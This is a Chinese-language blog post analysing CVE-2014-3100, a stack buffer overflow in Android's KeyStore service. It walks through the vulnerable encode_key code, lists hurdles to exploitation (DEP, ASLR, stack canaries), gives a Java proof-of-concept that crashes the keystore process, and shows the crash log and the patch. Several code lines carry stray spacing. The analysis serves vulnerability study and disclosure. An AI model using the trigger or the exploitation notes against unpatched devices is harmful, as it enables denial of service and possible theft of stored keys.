

# Android KeyStore Stack Buffer Overflow (CVE-2014-3100) - mengfanrong - 博客园

> 原文：[`www.cnblogs.com/mengfanrong/p/4733582.html`](https://www.cnblogs.com/mengfanrong/p/4733582.html)

/*

本文章由 莫灰灰 编写，转载请注明出处。  

作者：莫灰灰    邮箱： minzhenfei@163.com

*/

**1\. KeyStore Service**

在 Android 中，/system/bin/keystore 进程提供了一个安全存储的服务。在过去的版本号中。其它程序主要用过 UNIX socket 的守护进程/dev/socket/keystore 去訪问这个服务。

然而。如今我们能够通过 Binder 机制去訪问它。

每个 Android 用户都有一块其私有的安全存储区域。

全部秘钥信息使用一个随机 key 并用 AES 加密算法加密。加密好的密文採用另外一个 key 加密后保存到本地磁盘。

（后面的 key 通过 PKCS5_PBKDF2_HMAC_SHA1 函数算出来的）

在最近的一些 Android 版本号中，证书管理（比如 RSA 算法的私有 key）是能够通过专门的硬件做支持的。这也就是说。keystore 的 key 仅仅是用来标识存储在专有硬件上的真正 key。

虽然有专有硬件的支持，可是还是会有一些证书，比如 VPN PPTP 的证书，依旧会保存在本地磁盘上。

图一非常好的阐述了 keystore 安全存储机制的工作原理。

当然，很多其它的关于 keystore 服务的一些内部信息大家都能够在网上找到相关资料。



**2\. Simplicity**

通过源码（keystore.c）中的凝视我们能够知道 KeyStore 被设计出来的时候想的稍微简单了点：

```
/* KeyStore is a secured storage for key-value pairs. In this implementation,
* each file stores one key-value pair. Keys are encoded in file names, and
* values are encrypted with checksums. The encryption key is protected by a
* user-defined password. To keep things simple, buffers are always larger than
* the maximum space we needed, so boundary checks on buffers are omitted.*/
```

代码实现起来尽管简单，可是缓冲区的大小并不总是比他们设想的最大空间要小。

**3\. Vulnerability**

easy 被攻击的缓冲区主要是在 KeyStore::getKeyForName 函数中。

```
ResponseCode getKeyForName (
<span style="white-space:pre">	</span>Blob * keyBlob ,
<span style="white-space:pre">	</span>const android :: String8 & keyName ,
<span style="white-space:pre">	</span>const uid_t uid ,
<span style="white-space:pre">	</span>const BlobType type )
{
	char filename [ NAME_MAX ];
	encode_key_for_uid ( filename , uid , keyName );
	...
}
```

这个函数有好几个调用者，外部程序能够非常 easy 的通过 Binder 接口来调用它。（比如。int32_t android::KeyStoreProxy::get(const String16& name, uint8_t** item, size_t*
itemLength)）。因此，恶意程序能够非常轻松的控制变量 keyName 的值和长度。

接下来，encode_key_for_uid 函数中调用了 encode_key 函数，这个函数在没有边界检查的情况下会造成 filename 的缓冲区溢出。

```
static int encode_key_for_uid (
	char * out ,
	uid_t uid ,
	const android :: String8 & keyName )
{
	int n = snprintf ( out , NAME_MAX , "% u_ ", uid );
	out += n;
	return n + encode_key ( out , keyName );
}

static int encode_key (
	char * out ,
	const android :: String8 & keyName )
{
	const uint8_t * in = reinterpret_cast < const uint8_t * >( keyName . string ());
	size_t length = keyName . length ();
	for ( int i = length ; i > 0; --i , ++ in , ++ out ) {
		if (* in < '0' || * in > '~ ') {
			* out = '+' + (* in >> 6);
			*++ out = '0' + (* in & 0 x3F );
			++ length ;
		} else {
			* out = * in ;
		}
	}
	* out = '\0 ';
	return length ;
}
```

**4. Exploitation**

恶意程序假设要使用这个漏洞，那么还须要解决例如以下几个问题：
（1）.数据运行保护（DEP）。这个能够採用 Return-Oriented Programming (ROP)的方法绕过。

（2）.地址随机化（ASLR）。

（3）.堆栈检測（Stack Canaries）。
（4）.编码。小于 0x30 ('0')或者大于 0x7e ('~')的字符会被编码之后再写回到缓存区中。

只是好在 Android KeyStore 服务被结束了之后立即会重新启动，这个特性加大了攻击成功的概率。此外，攻击者理论上能够使用 ASLR 去对抗编码。

**5. Impact**

各种信息泄露

**6. Proof-of-concept**

能够通过下面 Java 代码触发漏洞：

```
Class keystore = Class.forName("android.security.KeyStore");
Method mGetInstance = keystore.getMethod ("getInstance");
Method mGet = keystore.getMethod ("get", String.class);
Object instance = mGetInstance.invoke( null ); inf
mGet.invoke( instance ,
" aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa "+
" aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa "+
" aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa "+
" aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa "+
" aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa "+
" aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa "+
" aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa ");
```

执行上述代码后。KeyStore 进程奔溃，日志例如以下：

F/ libc ( 2091): Fatal signal 11 ( SIGSEGV ) at 0 x61616155 ( code =1) , thread 2091 ( keystore )
I/ DEBUG ( 949): *** *** *** *** *** *** *** *** *** *** *** *** *** *** *** ***
I/ DEBUG ( 949): Build fingerprint : ' generic_x86 / sdk_x86 / generic_x86 :4.3/ JSS15
J/ eng . android - build .20130801.155736: eng / test - keys '
I/ DEBUG ( 949): Revision : '0'
I/ DEBUG ( 949): pid : 2091 , tid : 2091 , name : keystore >>> / system / bin / keystore <<<
I/ DEBUG ( 949): signal 11 ( SIGSEGV ), code 1 ( SEGV_MAPERR ) , fault addr 61616155
I/ DEBUG ( 949): eax 61616161 ebx b7779e94 ecx bff85ed0 edx b777a030
I/ DEBUG ( 949): esi b82a78a0 edi 000003 e8
I/ DEBUG ( 949): xcs 00000073 xds 0000007 b xes 0000007 b xfs 00000000 xss 0000007 b
I/ DEBUG ( 949): eip b7774937 ebp 61616161 esp bff85d20 flags 00010202
I/ DEBUG ( 949):
I/ DEBUG ( 949): backtrace :
I/ DEBUG ( 949): #00 pc 0000 c937 / system / bin / keystore ( KeyStore :: getKeyForName ( Blob * ,
android :: String8 const & ,
unsigned int , BlobType )+695)
I/ DEBUG ( 949):
I/ DEBUG ( 949): stack :
I/ DEBUG ( 949): bff85ce0 00000000
...
I/ DEBUG ( 949): bff85d48 00000007
I/ DEBUG ( 949): bff85d4c bff85ed0 [ stack ]
I/ DEBUG ( 949): bff85d50 bff8e1bc [ stack ]
I/ DEBUG ( 949): bff85d54 b77765a3 / system / bin / keystore
I/ DEBUG ( 949): bff85d58 b7776419 / system / bin / keystore
I/ DEBUG ( 949): bff85d5c bff85ed4 [ stack ]
I/ DEBUG ( 949): ........ ........
I/ DEBUG ( 949):
I/ DEBUG ( 949): memory map around fault addr 61616155:
I/ DEBUG ( 949): ( no map below )
I/ DEBUG ( 949): ( no map for address )
I/ DEBUG ( 949): b72ba000 - b73b8000 r -- / dev / binder

**7\. Patch**

getKeyForName 函数不再使用 C 风格的字符串去保存 filename 了。另外，使用了 getKeyNameForUidWithDir 函数去替代 encode_key_for_uid 生成编码的密钥名。前者正确的计算了编码后密钥的长度。

```
ResponseCode getKeyForName ( Blob * keyBlob , const android :: String8 & keyName , const uid_t uid ,
	const BlobType type ) {
	android :: String8 filepath8 ( getKeyNameForUidWithDir ( keyName , uid ));
	...
}
android :: String8 getKeyNameForUidWithDir ( const android :: String8 & keyName , uid_t uid ) {
	char encoded [ encode_key_length ( keyName ) + 1]; // add 1 for null char
	encode_key ( encoded , keyName );
	return android :: String8 :: format ("% s /% u_ %s ", getUserState ( uid ) -> getUserDirName () , uid ,
	encoded );
}
```

原 paper：[`www.slideshare.net/ibmsecurity/android-keystorestackbufferoverflow`](http://www.slideshare.net/ibmsecurity/android-keystorestackbufferoverflow)